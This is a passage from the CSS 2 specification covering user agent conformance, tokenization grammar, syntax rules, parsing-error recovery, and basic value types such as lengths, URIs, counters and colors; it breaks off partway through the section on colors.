> Documents written in XHTML (and other XML-based languages) behave differently: there are no inferred elements and all elements must have end tags.

#### 3.2. UA Conformance {#css2:conformance}

This section defines **conformance** with the CSS 2 specification only. There may be other levels of CSS in the future that may require a user agent to implement a different set of features in order to conform.

In general, the following points must be observed by a user agent claiming conformance to this specification:

1. It must recognize one or more of the CSS 2 [media types](#css2:media).
2. For each source document, it must attempt to retrieve all associated style sheets that are appropriate for the recognized media types. If it cannot retrieve all associated style sheets (for instance, because of network errors), it must display the document using those it can retrieve.
3. It must parse the style sheets according to this specification. In particular, it must recognize all at-rules, blocks, declarations, and selectors (see the [grammar of CSS 2](#css2:app-grammar)). If a user agent encounters a property that applies for a supported media type, the user agent must parse the value according to the property definition. This means that the user agent must accept all valid values and must ignore declarations with invalid values. User agents must ignore rules that apply to unsupported [media types](#css2:media).
4. For each element in a document tree, it must assign a value for every property according to the property’s definition and the rules of [cascading and inheritance](#css2:assigning).
5. If the source document comes with alternate style sheet sets (such as with the "alternate" keyword in HTML 4 [HTML401]), the UA must allow the user to select which style sheet set the UA should apply.
6. The UA must allow the user to turn off the influence of author style sheets.

Not every user agent must observe every point, however:

- An application that reads style sheets without rendering any content (e.g., a CSS 2 validator) must respect points 1-3.
- An authoring tool is only required to output valid style sheets
- A user agent that *renders* a document with associated style sheets must respect points 1-6 and render the document according to the media-specific requirements set forth in this specification. Values may be approximated when required by the user agent.

The inability of a user agent to implement part of this specification due to the limitations of a particular device (e.g., a user agent cannot render colors on a monochrome monitor or page) does not imply non-conformance.

UAs must allow users to specify a file that contains the user style sheet. UAs that run on devices without any means of writing or specifying files are exempted from this requirement. Additionally, UAs may offer other means to specify user preferences, for example, through a GUI.

CSS 2 does not define which properties apply to form controls and frames, or how CSS can be used to style them. User agents may apply CSS properties to these elements. Authors are recommended to treat such support as experimental. A future level of CSS may specify this further.

#### 3.3. Error conditions {#css2:errors}

In general, this document specifies error handling behavior throughout the specification. For example, see the [rules for handling parsing errors](#css2:parsing-errors).

#### 3.4. The text/css content type {#css2:text-css}

The *media type* (commonly *MIME type*) of `text/css` has been registered by [RFC2318].

### 4. Syntax and basic data types {#css2:syndata}

#### 4.1. Syntax {#css2:syntax}

This section describes a grammar (and **forward-compatible parsing** rules) common to any level of CSS (including CSS 2). Future updates of CSS will adhere to this core syntax, although they may add additional syntactic constraints.

These descriptions are normative. They are also complemented by the normative grammar rules presented in [Appendix G](#css2:app-grammar).

In this specification, the expressions "immediately before" or "immediately after" mean with no intervening white space or comments.

##### 4.1.1. Tokenization {#css2:tokenization}

All levels of CSS — level 1, level 2, and any future levels — use the same core syntax. This allows UAs to parse (though not completely understand) style sheets written in levels of CSS that did not exist at the time the UAs were created. Designers can use this feature to create style sheets that work with older user agents, while also exercising the possibilities of the latest levels of CSS.

At the lexical level, CSS style sheets consist of a sequence of tokens. The list of tokens for CSS is as follows. The definitions use Lex-style regular expressions. Octal codes refer to ISO 10646 ([ISO10646]). As in Lex, in case of multiple matches, the longest match determines the token.

| Token | Definition |
| --- | --- |
|  |  |
| IDENT | `{ident}` |
| ATKEYWORD | `@{ident}` |
| STRING | `{string}` |
| BAD_STRING | `{badstring}` |
| BAD_URI | `{baduri}` |
| BAD_COMMENT | `{badcomment}` |
| HASH | `#{name}` |
| NUMBER | `{num}` |
| PERCENTAGE | `{num}%` |
| DIMENSION | `{num}{ident}` |
| URI | `url\({w}{string}{w}\) \|url\({w}([!#$%&*-\[\]-~]\|{nonascii}\|{escape})*{w}\)` |
| UNICODE-RANGE | `u\+[0-9a-f?]{1,6}(-[0-9a-f]{1,6})?` |
| CDO | `<!--` |
| CDC | `-->` |
| : | `:` |
| ; | `;` |
| { | `\{` |
| } | `\}` |
| ( | `\(` |
| ) | `\)` |
| [ | `\[` |
| ] | `\]` |
| S | `[ \t\r\n\f]+` |
| COMMENT | `\/\*[^*]*\*+([^/*][^*]*\*+)*\/` |
| FUNCTION | `{ident}\(` |
| INCLUDES | `~=` |
| DASHMATCH | `\|=` |
| DELIM | *any other character not matched by the above rules, and neither a single nor a double quote* |

The macros in curly braces ({}) above are defined as follows:

| Macro | Definition |
| --- | --- |
|  |  |
| ident | `[-]?{nmstart}{nmchar}*` |
| name | `{nmchar}+` |
| nmstart | `[_a-z]\|{nonascii}\|{escape}` |
| nonascii | `[^\0-\237]` |
| unicode | `\[0-9a-f]{1,6}(\r\n\|[ \n\r\t\f])?` |
| escape | `{unicode}\|\\[^\n\r\f0-9a-f]` |
| nmchar | `[_a-z0-9-]\|{nonascii}\|{escape}` |
| num | `[0-9]+\|[0-9]*\.[0-9]+` |
| string | `{string1}\|{string2}` |
| string1 | `\"([^\n\r\f\\"]\|\\{nl}\|{escape})*\"` |
| string2 | `'([^\n\r\f\']\|\\{nl}\|{escape})*'` |
| badstring | `{badstring1}\|{badstring2}` |
| badstring1 | `\"([^\n\r\f\\"]\|\\{nl}\|{escape})*\\?` |
| badstring2 | `'([^\n\r\f\']\|\\{nl}\|{escape})*\\?` |
| badcomment | `{badcomment1}\|{badcomment2}` |
| badcomment1 | `\/\*[^*]*\*+([^/*][^*]*\*+)*` |
| badcomment2 | `\/\*[^*]*(\*+[^/*][^*]*)*` |
| baduri | `{baduri1}\|{baduri2}\|{baduri3}` |
| baduri1 | `url\({w}([!#$%&*-~]\|{nonascii}\|{escape})*{w}` |
| baduri2 | `url\({w}{string}{w}` |
| baduri3 | `url\({w}{badstring}` |
| nl | `\n\|\r\n\|\r\|\f` |
| w | `[ \t\r\n\f]*` |

> **Example:** For example, the rule of the longest match means that "`red-->`" is tokenized as the IDENT "`red--`" followed by the DELIM "`>`", rather than as an IDENT followed by a CDC.

Below is the core syntax for CSS. The sections that follow describe how to use it. [Appendix G](#css2:app-grammar) describes a more restrictive grammar that is closer to the CSS level 2 language. Parts of style sheets that can be parsed according to this grammar but not according to the grammar in Appendix G are among the parts that will be ignored according to the [rules for handling parsing errors](#css2:parsing-errors).

```
stylesheet  : [ CDO | CDC | S | statement ]*;
statement   : ruleset | at-rule;
at-rule     : ATKEYWORD S* any* [ block | ';' S* ];
block       : '{' S* [ any | block | ATKEYWORD S* | ';' S* ]* '}' S*;
ruleset     : selector? '{' S* declaration? [ ';' S* declaration? ]* '}' S*;
selector    : any+;
declaration : property S* ':' S* value;
property    : IDENT;
value       : [ any | block | ATKEYWORD S* ]+;
any         : [ IDENT | NUMBER | PERCENTAGE | DIMENSION | STRING
              | DELIM | URI | HASH | UNICODE-RANGE | INCLUDES
              | DASHMATCH | ':' | FUNCTION S* [any|unused]* ')'
              | '(' S* [any|unused]* ')' | '[' S* [any|unused]* ']'
              ] S*;
unused      : block | ATKEYWORD S* | ';' S* | CDO S* | CDC S*;
```

The "unused" production is not used in CSS and will not be used by any future extension. It is included here only to help with error handling. (See [4.2 "Rules for handling parsing errors."](#css2:parsing-errors))

COMMENT tokens do not occur in the grammar (to keep it readable), but any number of these tokens may appear anywhere outside other tokens. (Note, however, that a comment before or within the @charset rule disables the @charset.)

The token S in the grammar above stands for white space. Only the characters "space" (U+0020), "tab" (U+0009), "line feed" (U+000A), "carriage return" (U+000D), and "form feed" (U+000C) can occur in white space. Other space-like characters, such as "em-space" (U+2003) and "ideographic space" (U+3000), are never part of white space.

The meaning of input that cannot be tokenized or parsed is undefined in CSS 2.

##### 4.1.2. Keywords {#css2:keywords}

Keywords have the form of identifiers. Keywords must not be placed between quotes ("..." or `...`). Thus,

```
red
```

is a keyword, but

```
"red"
```

is not. (It is a [string](#css2:strings).) Other illegal examples:

> **Example:** ```
> width: "auto";
> border: "none";
> background: "red";
> ```

###### 4.1.2.1. Vendor-specific extensions {#css2:vendor-keywords}

In CSS, identifiers may begin with '`-`' (dash) or '`_`' (underscore). Keywords and [property names](#css2:properties) beginning with `-`' or '`_`' are reserved for vendor-specific extensions. Such vendor-specific extensions should have one of the following formats:

```
'-' + vendor identifier + '-' + meaningful name
'_' + vendor identifier + '-' + meaningful name
```

> **Example:** For example, if XYZ organization added a property to describe the color of the border on the East side of the display, they might call it `-xyz-border-east-color`.
>
> Other known examples:
>
> ```
> -moz-box-sizing
> -moz-border-radius
> -wap-accesskey
> ```

An initial dash or underscore is guaranteed never to be used in a property or keyword by any current or future level of CSS. Thus typical CSS implementations may not recognize such properties and may ignore them according to the [rules for handling parsing errors](#css2:parsing-errors). However, because the initial dash or underscore is part of the grammar, CSS 2 implementers should always be able to use a CSS-conforming parser, whether or not they support any vendor-specific extensions.

Authors should avoid vendor-specific extensions

###### 4.1.2.2. Informative Historical Notes {#css2:vendor-keyword-history}

This section is informative.

At the time of writing, the following prefixes are known to exist:

| prefix | organization |
| --- | --- |
| `-ms-`, `mso-` | Microsoft |
| `-moz-` | Mozilla |
| `-o-`, `-xv-` | Opera Software |
| `-atsc-` | Advanced Television Standards Committee |
| `-wap-` | The WAP Forum |
| `-khtml-` | KDE |
| `-webkit-` | Apple |
| `prince-` | YesLogic |
| `-ah-` | Antenna House |
| `-hp-` | Hewlett Packard |
| `-ro-` | Real Objects |
| `-rim-` | Research In Motion |
| `-tc-` | TallComponents |

##### 4.1.3. Characters and case {#css2:characters}

The following rules always hold:

- All CSS syntax is case-insensitive within the ASCII range (i.e., [a-z] and [A-Z] are equivalent), except for parts that are not under the control of CSS. For example, the case-sensitivity of values of the HTML attributes "id" and "class", of font names, and of URIs lies outside the scope of this specification. Note in particular that element names are case-insensitive in HTML, but case-sensitive in XML.
- In CSS, **identifiers** (including element names, classes, and IDs in [selectors](#css2:selector)) can contain only the characters [a-zA-Z0-9] and ISO 10646 characters U+00A0 and higher, plus the hyphen (-) and the underscore (_); they cannot start with a digit, two hyphens, or a hyphen followed by a digit. Identifiers can also contain escaped characters and any ISO 10646 character as a numeric code (see next item). For instance, the identifier "B&W?" may be written as "B\&W\?" or "B\26 W\3F".

  Note that Unicode is code-by-code equivalent to ISO 10646 (see [UNICODE] and [ISO10646]).
- In CSS 2, a backslash (\) character can indicate one of three types of  **character escape.** Inside a CSS comment, a backslash stands for itself, and if a backslash is immediately followed by the end of the style sheet, it also stands for itself (i.e., a DELIM token).

  First, inside a [string](#css2:strings), a backslash followed by a newline is ignored (i.e., the string is deemed not to contain either the backslash or the newline). Outside a string, a backslash followed by a newline stands for itself (i.e., a DELIM followed by a newline).

  Second, it cancels the meaning of special CSS characters. Any character (except a hexadecimal digit, linefeed, carriage return, or form feed) can be escaped with a backslash to remove its special meaning. For example, `"\""` is a string consisting of one double quote. Style sheet preprocessors must not remove these backslashes from a style sheet since that would change the style sheet’s meaning.

  Third, backslash escapes allow authors to refer to characters they cannot easily put in a document. In this case, the backslash is followed by at most six hexadecimal digits (0..9A..F), which stand for the ISO 10646 ([ISO10646]) character with that number, which must not be zero. (It is undefined in CSS 2 what happens if a style sheet *does* contain a character with Unicode codepoint zero.) If a character in the range [0-9a-fA-F] follows the hexadecimal number, the end of the number needs to be made clear. There are two ways to do that:

  1. with a space (or other white space character): "\26 B" ("&B"). In this case, user agents should treat a "CR/LF" pair (U+000D/U+000A) as a single white space character.
  2. by providing exactly 6 hexadecimal digits: "\000026B" ("&B")

  In fact, these two methods may be combined. Only one white space character is ignored after a hexadecimal escape. Note that this means that a "real" space after the escape sequence must be doubled.

  If the number is outside the range allowed by Unicode (e.g., "\110000" is above the maximum 10FFFF allowed in current Unicode), the UA may replace the escape with the "replacement character" (U+FFFD). If the character is to be displayed, the UA should show a visible symbol, such as a "missing character" glyph (cf. [15.2,](#css2:algorithm) point 5).
- Note: Backslash escapes are always considered to be part of an identifier or a string (i.e., "\7B" is not punctuation, even though "{" is, and "\32" is allowed at the start of a class name, even though "2" is not).

  The identifier "te\st" is exactly the same identifier as "test".

##### 4.1.4. Statements {#css2:statements}

A CSS style sheet, for any level of CSS, consists of a list of *statements* (see the [grammar](#css2:tokenization) above). There are two kinds of statements: *at-rules* and *rule sets.* There may be [white space](#css2:whitespace) around the statements.

##### 4.1.5.  **At-rules** {#css2:at-rules}

At-rules start with an **at-keyword**, an `@` character followed immediately by an identifier (for example, `@import`, `@page`).

An at-rule consists of everything up to and including the next semicolon (;) or the next [block,](#css2:block) whichever comes first.

CSS 2 user agents must [ignore](#css2:ignore) any `@import` rule that occurs inside a [block](#css2:block) or after any non-ignored statement other than an @charset or an @import rule.

> **Example:** Assume, for example, that a CSS 2 parser encounters this style sheet:
>
> ```css
> @import "subs.css";
> h1 { color: blue }
> @import "list.css";
> ```
>
> The second `@import` is illegal according to CSS 2. The CSS 2 parser [ignores](#css2:ignore) the whole at-rule, effectively reducing the style sheet to:
>
> ```css
> @import "subs.css";
> h1 { color: blue }
> ```

> **Example:** In the following example, the second `@import` rule is invalid, since it occurs inside a `@media` [block](#css2:block).
>
> ```css
> @import "subs.css";
> @media print {
>   @import "print-main.css";
>   body { font-size: 10pt }
> }
> h1 {color: blue }
> ```
>
> Instead, to achieve the effect of only importing a style sheet for `print` media, use the @import rule with media syntax, e.g.:
>
> ```css
> @import "subs.css";
> @import "print-main.css" print;
> @media print {
>   body { font-size: 10pt }
> }
> h1 {color: blue }
> ```

##### 4.1.6. Blocks {#css2:block}

A *block* starts with a left curly brace ({) and ends with the matching right curly brace (}). In between there may be any tokens, except that parentheses (( )), brackets ([ ]), and braces ({ }) must always occur in matching pairs and may be nested. Single (') and double quotes (") must also occur in matching pairs, and characters between them are parsed as a string. See [Tokenization](#css2:tokenization) above for the definition of a string.

> **Example:** Here is an example of a block. Note that the right brace between the double quotes does not match the opening brace of the block, and that the second single quote is an escaped character, and thus does not match the first single quote:
>
> ```css
> { causta: "}" + ({7} * '\'') }
> ```
>
> Note that the above rule is not valid CSS 2, but it is still a block as defined above.

##### 4.1.7. Rule sets, declaration blocks, and selectors {#css2:rule-sets}

A **rule set** (also called "rule") consists of a selector followed by a declaration block.

A **declaration block** starts with a left curly brace ({) and ends with the matching right curly brace (}). In between there must be a list of zero or more semicolon-separated (;) declarations.

The selector consists of everything up to (but not including) the first left curly brace ({). A selector always goes together with a declaration block. When a user agent cannot parse the selector (i.e., it is not valid CSS 2), it must [ignore](#css2:ignore) the selector and the following declaration block (if any) as well.

CSS 2 gives a special meaning to the comma (,) in selectors. However, since it is not known if the comma may acquire other meanings in future updates of CSS, the whole statement should be [ignored](#css2:ignore) if there is an error anywhere in the selector, even though the rest of the selector may look reasonable in CSS 2.

> **Example:** For example, since the "&" is not a valid token in a CSS 2 selector, a CSS 2 user agent must [ignore](#css2:ignore) the whole second line, and not set the color of H3 to red:
>
> ```css
> h1, h2 {color: green }
> h3, h4 & h5 {color: red }
> h6 {color: black }
> ```

> **Example:** Here is a more complex example. The first two pairs of curly braces are inside a string, and do not mark the end of the selector. This is a valid CSS 2 rule.
>
> ```css
> p[example="public class foo\
> {\
>     private int x;\
> \
>     foo(int x) {\
>         this.x = x;\
>     }\
> \
> }"] { color: red }
> ```

##### 4.1.8. Declarations and properties {#css2:declaration}

A **declaration** is either empty or consists of a property name, followed by a colon (:), followed by a property value. Around each of these there may be [white space](#css2:whitespace).

Because of the way selectors work, multiple declarations for the same selector may be organized into semicolon (;) separated groups.

> **Example:** Thus, the following rules:
>
> ```css
> h1 { font-weight: bold }
> h1 { font-size: 12px }
> h1 { line-height: 14px }
> h1 { font-family: Helvetica }
> h1 { font-variant: normal }
> h1 { font-style: normal }
> ```
>
> are equivalent to:
>
> ```css
> h1 {
>   font-weight: bold;
>   font-size: 12px;
>   line-height: 14px;
>   font-family: Helvetica;
>   font-variant: normal;
>   font-style: normal
> }
> ```

A property name is an identifier. Any token may occur in the property value. Parentheses ("( )"), brackets ("[ ]"), braces ("{ }"), single quotes ('), and double quotes (") must come in matching pairs, and semicolons not in strings must be escaped. Parentheses, brackets, and braces may be nested. Inside the quotes, characters are parsed as a string.

The syntax of **values** is specified separately for each property, but in any case, values are built from identifiers, strings, numbers, lengths, percentages, URIs, colors, etc.

A user agent must [ignore](#css2:ignore) a declaration with an invalid property name or an invalid value. Every CSS property has its own syntactic and semantic restrictions on the values it accepts.

> **Example:** For example, assume a CSS 2 parser encounters this style sheet:
>
> ```css
> h1 { color: red; font-style: 12pt }  /* Invalid value: 12pt */
> p { color: blue;  font-vendor: any;  /* Invalid prop.: font-vendor */
>     font-variant: small-caps }
> em em { font-style: normal }
> ```
>
> The second declaration on the first line has an invalid value `12pt`. The second declaration on the second line contains an undefined property `font-vendor`. The CSS 2 parser will [ignore](#css2:ignore) these declarations, effectively reducing the style sheet to:
>
> ```css
> h1 { color: red; }
> p { color: blue;  font-variant: small-caps }
> em em { font-style: normal }
> ```

##### 4.1.9. Comments {#css2:comments}

**Comments** begin with the characters "/*" and end with the characters "*/". They may occur anywhere outside other tokens, and their contents have no influence on the rendering. Comments may not be nested.

CSS also allows the SGML comment delimiters ("<!--" and "-->") in certain places defined by the grammar, but they do not delimit CSS comments. They are permitted so that style rules appearing in an HTML source document (in the STYLE element) may be hidden from pre-HTML 3.2 user agents. See the HTML 4 specification ([HTML401]) for more information.

#### 4.2. Rules for handling parsing errors {#css2:parsing-errors}

In some cases, user agents must ignore part of an illegal style sheet. This specification defines **ignore** to mean that the user agent parses the illegal part (in order to find its beginning and end), but otherwise acts as if it had not been there. CSS 2 reserves for future updates of CSS all property:value combinations and @-keywords that do not contain an identifier beginning with dash or underscore. Implementations must ignore such combinations (other than those introduced by future updates of CSS).

To ensure that new properties and new values for existing properties can be added in the future, user agents are required to obey the following rules when they encounter the following scenarios:

- **Unknown properties.** User agents must [ignore](#css2:ignore) a [declaration](#css2:declaration) with an unknown property. For example, if the style sheet is:

  ```css
  h1 { color: red; rotation: 70minutes }
  ```

  the user agent will treat this as if the style sheet had been

  ```css
  h1 { color: red }
  ```
- **Illegal values.** User agents must ignore a declaration with an illegal value. For example:

  ```css
  img { float: left }       /* correct CSS 2 */
  img { float: left here }  /* "here" is not a value of 'float' */
  img { background: "red" } /* keywords cannot be quoted */
  img { border-width: 3 }   /* a unit must be specified for length values */
  ```

  A CSS 2 parser would honor the first rule and [ignore](#css2:ignore) the rest, as if the style sheet had been:

  ```css
  img { float: left }
  img { }
  img { }
  img { }
  ```

  A user agent conforming to a future CSS specification may accept one or more of the other rules as well.
- **Malformed declarations.** User agents must handle unexpected tokens encountered while parsing a declaration by reading until the end of the declaration, while observing the rules for matching pairs of (), [], {}, "", and '', and correctly handling escapes. For example, a malformed declaration may be missing a property name, colon (:), or property value. The following are all equivalent:

  ```css
  p { color:green }
  p { color:green; color }  /* malformed declaration missing ':', value */
  p { color:red;   color; color:green }  /* same with expected recovery */
  p { color:green; color: } /* malformed declaration missing value */
  p { color:red;   color:; color:green } /* same with expected recovery */
  p { color:green; color{;color:maroon} } /* unexpected tokens { } */
  p { color:red;   color{;color:maroon}; color:green } /* same with recovery */
  ```
- **Malformed statements.** User agents must handle unexpected tokens encountered while parsing a statement by reading until the end of the statement, while observing the rules for matching pairs of (), [], {}, "", and '', and correctly handling escapes. For example, a malformed statement may contain an unexpected closing brace or at-keyword. E.g., the following lines are all ignored:

  ```css
  p @here {color: red}     /* ruleset with unexpected at-keyword "@here" */
  @foo @bar;               /* at-rule with unexpected at-keyword "@bar" */
  }} {{ - }}               /* ruleset with unexpected right brace */
  ) ( {} ) p {color: red } /* ruleset with unexpected right parenthesis */
  ```
- **At-rules with unknown at-keywords.** User agents must [ignore](#css2:ignore) an invalid at-keyword together with everything following it, up to the end of the block that contains the invalid at-keyword, or up to and including the next semicolon (;), or up to and including the next block ({...}), whichever comes first. For example, consider the following:

  ```css
  @three-dee {
  @background-lighting {
    azimuth: 30deg;
    elevation: 190deg;
  }
  h1 { color: red }
  }
  h1 { color: blue }
  ```

  The `@three-dee` at-rule is not part of CSS 2. Therefore, the whole at-rule (up to, and including, the third right curly brace) is [ignored.](#css2:ignore) A CSS 2 user agent [ignores](#css2:ignore) it, effectively reducing the style sheet to:

  ```css
  h1 { color: blue }
  ```

  Something inside an at-rule that is ignored because it is invalid, such as an invalid declaration within an @media-rule, does not make the entire at-rule invalid.
- **Unexpected end of style sheet.**

  User agents must close all open constructs (for example: blocks, parentheses, brackets, rules, strings, and comments) at the end of the style sheet. For example:

  ```css
  @media screen {
  p:before { content: 'Hello
  ```

  would be treated the same as:

  ```css
  @media screen {
  p:before { content: 'Hello'; }
  }
  ```

  in a conformant UA.
- **Unexpected end of string.**

  User agents must close strings upon reaching the end of a line (i.e., before an unescaped line feed, carriage return or form feed character), but then drop the construct (declaration or rule) in which the string was found. For example:

  ```css
  p {
  color: green;
  font-family: 'Courier New Times
  color: red;
  color: green;
  }
  ```

  ...would be treated the same as:

  ```css
  p { color: green; color: green; }
  ```

  ...because the second declaration (from `font-family` to the semicolon after 'color: red') is invalid and is dropped.
- See also [Rule sets, declaration blocks, and selectors](#css2:rule-sets) for parsing rules for declaration blocks.

#### 4.3. Values {#css2:values①}

##### 4.3.1. Integers and real numbers {#css2:numbers}

Some value types may have integer values (denoted by **<integer>**) or real number values (denoted by **<number>**). Real numbers and integers are specified in decimal notation only. An <integer> consists of one or more digits "0" to "9". A <number> can either be an <integer>, or it can be zero or more digits followed by a dot (.) followed by one or more digits. Both integers and real numbers may be preceded by a "-" or "+" to indicate the sign. \-0 is equivalent to 0 and is not a negative number.

Note that many properties that allow an integer or real number as a value actually restrict the value to some range, often to a non-negative value.

##### 4.3.2. Lengths {#css2:length-units}

Lengths refer to distance measurements.

The format of a length value (denoted by **<length>** in this specification) is a <number> (with or without a decimal point) immediately followed by a unit identifier (e.g., px, em, etc.). After a zero length, the unit identifier is optional.

Some properties allow negative length values, but this may complicate the formatting model and there may be implementation-specific limits. If a negative length value cannot be supported, it should be converted to the nearest value that can be supported.

If a negative length value is set on a property that does not allow negative length values, the declaration is ignored.

In cases where the used length cannot be supported, user agents must approximate it in the actual value.

There are two types of length units: relative and absolute. ***Relative length*** units specify a length relative

to another length property. Style sheets that use relative units can more easily scale from one output environment to another.

Relative units are:

- **em**: the `font-size` of the relevant font
- **ex**: the `x-height` of the relevant font

> **Example:** ```css
> h1 { margin: 0.5em }      /* em */
> h1 { margin: 1ex }        /* ex */
> ```

The **em** unit is equal to the computed value of the `font-size` property of the element on which it is used. The exception is when `em` occurs in the value of the `font-size` property itself, in which case it refers to the font size of the parent element. It may be used for vertical or horizontal measurement. (This unit is also sometimes called the quad-width in typographic texts.)

The **ex** unit is defined by the element’s first available font. The exception is when `ex` occurs in the value of the `font-size` property, in which case it refers to the `ex` of the parent element.

The `x-height` is so called because it is often equal to the height of the lowercase "x". However, an `ex` is defined even for fonts that do not contain an "x".

The x-height of a font can be found in different ways. Some fonts contain reliable metrics for the x-height. If reliable font metrics are not available, UAs may determine the x-height from the height of a lowercase glyph. One possible heuristic is to look at how far the glyph for the lowercase "o" extends below the baseline, and subtract that value from the top of its bounding box. In the cases where it is impossible or impractical to determine the x-height, a value of 0.5em should be used.

> **Example:** The rule:
>
> ```css
> h1 { line-height: 1.2em }
> ```
>
> means that the line height of "h1" elements will be 20% greater than the font size of the "h1" elements. On the other hand:
>
> ```css
> h1 { font-size: 1.2em }
> ```
>
> means that the font-size of "h1" elements will be 20% greater than the font size inherited by "h1" elements.

When specified for the root of the  document tree (e.g., "HTML" in HTML), `em` and `ex` refer to the property’s [initial value](#css2:initial-value).

Child elements do not inherit the relative values specified for their parent; they inherit the computed values.

> **Example:** In the following rules, the computed `text-indent` value of "h1" elements will be 36px, not 45px, if "h1" is a child of the "body" element.
>
> ```css
> body {
>   font-size: 12px;
>   text-indent: 3em;  /* i.e., 36px */
> }
> h1 { font-size: 15px }
> ```

***Absolute length***

units are fixed in relation to each other. They are mainly useful when the output environment is known. The absolute units consist of the physical units (in, cm, mm, pt, pc) and the px unit:

- **in**: inches — 1in is equal to 2.54cm.
- **cm**: centimeters
- **mm**: millimeters
- **pt**: points — the points used by CSS are equal to 1/72nd of 1in.
- **pc**: picas — 1pc is equal to 12pt.
- **px**: pixel units — 1px is equal to 0.75pt.

For a CSS device, these dimensions are either anchored (i) by relating the physical units to their physical measurements, or (ii) by relating the pixel unit to the *reference pixel*. For print media and similar high-resolution devices, the anchor unit should be one of the standard physical units (inches, centimeters, etc). For lower-resolution devices, and devices with unusual viewing distances, it is recommended instead that the anchor unit be the pixel unit. For such devices it is recommended that the pixel unit refer to the whole number of device pixels that best approximates the reference pixel.

> **Note:** that if the anchor unit is the pixel unit, the physical units might not match their physical measurements. Alternatively if the anchor unit is a physical unit, the pixel unit might not map to a whole number of device pixels.

> **Note:** that this definition of the pixel unit and the physical units differs from previous versions of CSS. In particular, in previous versions of CSS the pixel unit and the physical units were not related by a fixed ratio: the physical units were always tied to their physical measurements while the pixel unit would vary to most closely match the reference pixel. (This change was made because too much existing content relies on the assumption of 96dpi, and breaking that assumption breaks the content.)

The ***reference pixel*** is the visual angle of one pixel on a device with a pixel density of 96dpi and a distance from the reader of an arm’s length. For a nominal arm’s length of 28 inches, the visual angle is therefore about 0.0213 degrees. For reading at arm’s length, 1px thus corresponds to about 0.26 mm (1/96 inch).

The image below illustrates the effect of viewing distance on the size of a reference pixel: a reading distance of 71 cm (28 inches) results in a reference pixel of 0.26 mm, while a reading distance of 3.5 m (12 feet) results in a reference pixel of 1.3 mm.


This second image illustrates the effect of a device’s resolution on the pixel unit: an area of 1px by 1px is covered by a single dot in a low-resolution device (e.g. a typical computer display), while the same area is covered by 16 dots in a higher resolution device (such as a printer).


> **Example:** ```css
> h1 { margin: 0.5in }      /* inches  */
> h2 { line-height: 3cm }   /* centimeters */
> h3 { word-spacing: 4mm }  /* millimeters */
> h4 { font-size: 12pt }    /* points */
> h4 { font-size: 1pc }     /* picas */
> p  { font-size: 12px }    /* px */
> ```

##### 4.3.3.  Percentages {#css2:percentage-units}

The format of a percentage value (denoted by **<percentage>** in this specification) is a `<number>` immediately followed by `%`.

Percentage values are always relative to another value, for example a length. Each property that allows percentages also defines the value to which the percentage refers. The value may be that of another property for the same element, a property for an ancestor element, or a value of the formatting context (e.g., the width of a [containing block](#css2:containing-block)). When a percentage value is set for a property of the root element and the percentage is defined as referring to the inherited value of some property, the resultant value is the percentage times the [initial value](#css2:initial-value) of that property.

> **Example:** Since child elements (generally) inherit the computed values of their parent, in the following example, the children of the P element will inherit a value of 12px for `line-height`, not the percentage value (120%):
>
> ```css
> p { font-size: 10px }
> p { line-height: 120% }  /* 120% of 'font-size' */
> ```

##### 4.3.4. URLs and URIs {#css2:uri}

URI values (Uniform Resource Identifiers, see [RFC3986], which includes URLs, URNs, etc) in this specification are denoted by **<uri>**. The functional notation used to designate URIs in property values is "url()", as in:

> **Example:** ```css
> body { background: url("http://www.example.com/pinkish.png") }
> ```

The format of a URI value is `url(` followed by optional [white space](#css2:whitespace) followed by an optional single quote (') or double quote (") character followed by the URI itself, followed by an optional single quote (') or double quote (") character followed by optional white space followed by `)`. The two quote characters must be the same.

> **Example:** An example without quotes:
>
> ```css
> li { list-style: url(http://www.example.com/redball.png) disc }
> ```

Some characters appearing in an unquoted URI, such as parentheses, white space characters, single quotes (') and double quotes ("), must be escaped with a backslash so that the resulting URI value is a URI token: `\(`, `\)`.

Depending on the type of URI, it might also be possible to write the above characters as URI-escapes (where "(" = %28, ")" = %29, etc.) as described in [RFC3986].

> **Note:** *Note that COMMENT tokens cannot occur within other tokens: thus, "url(/*x*/pic.png)" denotes the URI "/*x*/pic.png", not "pic.png".*

In order to create modular style sheets that are not dependent on the absolute location of a resource, authors may use relative URIs. Relative URIs (as defined in [RFC3986]) are resolved to full URIs using a base URI. RFC 3986, section 5, defines the normative algorithm for this process. For CSS style sheets, the base URI is that of the style sheet, not that of the source document.

> **Example:** For example, suppose the following rule:
>
> ```css
> body { background: url("yellow") }
> ```
>
> is located in a style sheet designated by the URI:
>
> ```
> http://www.example.org/style/basic.css
> ```
>
> The background of the source document’s BODY will be tiled with whatever image is described by the resource designated by the URI
>
> ```
> http://www.example.org/style/yellow
> ```

User agents may vary in how they handle invalid URIs or URIs that designate unavailable or inapplicable resources.

##### 4.3.5. Counters {#css2:counter}

**Counters** are denoted by case-sensitive identifiers (see the `counter-increment` and `counter-reset` properties). To refer to the value of a counter, the notation  **counter(<identifier>)** or 'counter(<identifier>, <`list-style-type`>)', with optional white space separating the tokens, is used. The default style is `decimal`.

To refer to a sequence of nested counters of the same name, the notation is **counters(<identifier>, <string>)** or 'counters(<identifier>, <string>, <`list-style-type`>)' with optional white space separating the tokens.

See ["Nested counters and scope"](#css2:scope) in the chapter on [generated content](#css2:generated-text) for how user agents must determine the value or values of the counter. See the definition of counter values of the `content` property for how it must convert these values to a string.

In CSS 2, the values of counters can only be referred to from the `content` property. Note that `none` is a possible <`list-style-type`>: 'counter(x, none)' yields an empty string.

> **Example:** Here is a style sheet that numbers paragraphs (p) for each chapter (h1). The paragraphs are numbered with roman numerals, followed by a period and a space:
>
> ```css
> p {counter-increment: par-num}
> h1 {counter-reset: par-num}
> p:before {content: counter(par-num, upper-roman) ". "}
> ```

##### 4.3.6. Colors {#css2:color-units}

A **<color>** is either a keyword or a numerical RGB specification.

The list of color keywords is: **aqua**, **black**, **blue**, **fuchsia**, **gray**, **green**, **lime**, **maroon**, **navy**, **olive**, **orange**, **purple**, **red**, **silver**, **teal**, **white**, and **yellow**. These 17 colors have the following values:

maroon #800000 red #ff0000 orange #ffA500 yellow #ffff00 olive #808000

purple #800080 fuchsia #ff00ff white #ffffff lime #00ff00 green #008000

navy #000080 blue #0000ff aqua #00ffff teal #008080

black #000000 silver #c0c0c0 gray #808080

In addition to these color keywords, users may specify keywords that correspond to the colors used by certain objects in the user’s environment. Please consult the section on [system colors](#css2:system-colors) for more information.

> **Example:** ```css
> body {color: black; background: white }
> h1 { color: maroon }
> h2 { color: olive }
> ```

The RGB color model is used in numerical color specifications. These examples all specify the same color:

